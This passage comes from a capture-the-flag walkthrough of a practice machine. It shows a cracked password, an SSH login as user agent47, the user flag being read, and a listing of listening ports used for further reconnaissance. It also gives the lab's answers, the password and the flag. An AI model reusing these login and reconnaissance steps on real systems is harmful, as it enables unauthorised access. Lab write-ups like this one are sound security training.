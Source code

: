 > What is the de-hashed password?
>
> Answer: `videogamer124`

We can now try to log into the server using `ssh` and the credentials: `agent47:videogamer124`.

## Gaining Access

Using the credentials from the reconnaissance phase, we now log into the server's ssh service.
```shell-session
$ ssh agent47@TARGET_IP
...
agent47@TARGET_IP's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
agent47@gamezone:~$
```

We can now get the user flag:
```shell-session
agent47@gamezone:~$ ls
user.txt
agent47@gamezone:~$ cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
```

> What is the user flag?
>
> Answer: `649ac17b1480ac13ef1e4fa579dac95c`

Checking for running socket connections on the target machine:
```shell-session
Netid State      Recv-Q Send-Q                                               Local Address:Port                                                              Peer Address:Port               
udp   UNCONN     0      0                                                                *:10000                                                                        *:*                  
udp   UNCONN     0      0                                                                *:68                                                                           *:*                  
tcp   LISTEN     0      80                                                       127.0.0.1:3306                                                                         *:*                  
tcp   LISTEN     0      128                                                              *:10000                                                                        *:*                  
tcp   LISTEN     0      128                                                              *:22                                                                           *:*                  
tcp   LISTEN     0      128                                                             :::80                                                                          :::*                  
tcp   LISTEN     0      128                                                             :::22                                                                          :::*
```

